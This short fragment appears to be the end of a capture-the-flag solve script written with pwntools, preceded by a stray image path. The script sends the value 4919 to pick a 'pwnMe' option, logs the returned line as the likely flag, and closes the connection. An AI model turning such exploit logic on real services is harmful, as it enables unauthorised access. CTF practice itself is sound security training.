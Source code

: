 ```python

# choose pwnMe
vp.sendline(str(4919))

log.info("flag is probably:\n" + vp.readline())
vp.clean_and_log()
# vp.interactive()

vp.close()
```
